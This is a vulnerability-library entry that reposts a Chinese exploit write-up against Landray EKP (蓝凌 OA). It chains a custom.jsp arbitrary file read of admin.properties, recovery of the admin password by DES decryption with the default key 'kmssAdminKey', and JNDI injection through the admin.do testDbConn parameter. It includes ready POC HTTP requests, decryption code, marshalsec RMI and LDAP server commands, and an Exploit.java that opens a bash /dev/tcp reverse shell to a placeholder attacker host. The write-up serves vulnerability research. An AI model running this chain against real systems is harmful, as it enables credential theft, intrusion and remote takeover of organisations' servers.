# 蓝凌EKP custom.jsp读取+DES密码恢复+admin.do JNDI执行链

## 条目说明

- 对象与具体问题：蓝凌EKP；custom.jsp读取+DES密码恢复+admin.do JNDI执行链
- 版本、配置及部署条件：无版本；JDK远程类加载及出网限制仅提醒未给矩阵
- 认证与权限前提：前台读取后需后台admin会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与DES篇共享前半，保留本篇新增JNDI链而非整篇去重
- DNS回调不能单独证明任意代码执行；文中LDAP叙述与最终RMI请求混杂需分开
- 缺确切JDK/产品版本；反斜线JSON和DES返回值错误沿用；广告尾部可裁

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/-Y03NedgphDL8yBDpc5QOg)


X 凌 OA 系统任意文件读取 - SSRF+JNDI 远程命令执行

一、漏洞描述  

深圳市蓝凌软件股份有限公司数字 OA(EKP) 存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，同时利用 ssrf 可远程命令执行。

二、漏洞影响

蓝凌 OA

三、

利用 蓝凌 OA custom.jsp 任意文件读取漏洞 读取配置文件

读取路径：

```
/WEB-INF/KmssConfig/admin.properties
```

读取文件：



POC：

```http
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"\}\}
```

> 请求长度说明：原资料 Content-Length 为 60；保留原始标头；其数值未据实际请求体重新计算或验证。

获取密码 DES 解密登陆后台：默认密钥为 kmssAdminKey



访问后台登台：

http://127.0.0.1/admin.do

  

成功登陆后台：  



编写 POC 脚本验证：  



还需要自己去验证解密：  

编写本地 DES 解密：  

```
def decrypt_str(s):
 k = des(Des_Key, ECB, Des_IV, pad=None, padmode=PAD_PKCS5)
 decrystr = k.decrypt(base64.b64decode(s))
 print(decrystr)
 return decrypt_str
```



发现 key 字符过长：  

ValueError: Invalid DES key size. Key must be exactly 8 bytes long.

密钥长了，查了一下下 需要前面 8 位就 OK 也能解开



直接解密明文：



-------------- 上面是 X 凌 OA 系统任意文件读取 --------------

SSRF+jndi：

使用 JNDI-Injection 构建 ldap 服务：

https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

或者是手动自己编译 java 文件：

手动启动 ldap rim 服务详细过程参考：

[Fastjson1.2.47 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzIyNjk0ODYxMA==&mid=2247484025&idx=1&sn=10e26bbfd67f82b4c457601699d1f8eb&chksm=e869e114df1e6802491b516b03121304b35565bffe8ed8242214743b842897bd3e84673ba1e6&scene=21#wechat_redirect)

文章地址：https://mp.weixin.qq.com/s/69NCDDSaa07YY7DwyC9fgA

前期的 fastjson：

将下面 exp 保存为 Exploit.java 文件

```
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        //Process p = Runtime.getRuntime().exec(new String[]{"cmd","/c","calc.exe"});
      Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/XX.XX.XX.XX/34567;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

```
javac Exploit.java  编译生成Exploit.class文件
```

python 启动 web 服务

```
python -m SimpleHTTPServer  1111
```


通过 python 启动 exphttp 服务启动 ldap 服务 (RMI 服务)

本次复现使用 ldap 服务，同时也将 RMI 对应的操作也做了截图整理，主要是的原因的 RMI 的 JDk 版本支持，LDAPJava 的版本本环境的支持（注意 JDK 的版本，这个是可能成功与否的关键）。

不支持基本上，rmi 服务接受到了请求，直接就 close 掉了。注意这个细节点



```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.RMIRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer  http://XX.XX.XX.XX:1111/\#Exploit 9999
```



ldap 服务启动完成：  

访问后台登台：

http://127.0.0.1/admin.do

  

成功登陆后台：  


成功登陆系统获取的 cookie：  

```http
POST /admin.do HTTP/1.1
Host: 127.0.0.1
Cookie: JSESSIONID=; Hm_lvt_9838edd365000f753ebfdc508bf832d3=; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/thelostworld
```

> 请求长度说明：原资料 Content-Length 为 70；保留原始标头；其数值未据实际请求体重新计算或验证。



DNSlog 执行成功



参考：  

http://wiki.xypbk.com/Web%E5%AE%89%E5%85%A8/%E8%93%9D%E5%87%8Coa/%E8%93%9D%E5%87%8COA%20SSRF%E5%92%8CJNDI%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

如果本文内容侵权或者对贵公司业务或者其他有影响，请联系作者删除。  

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！


个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

语雀博客主页：https://www.yuque.com/thelostworld


欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
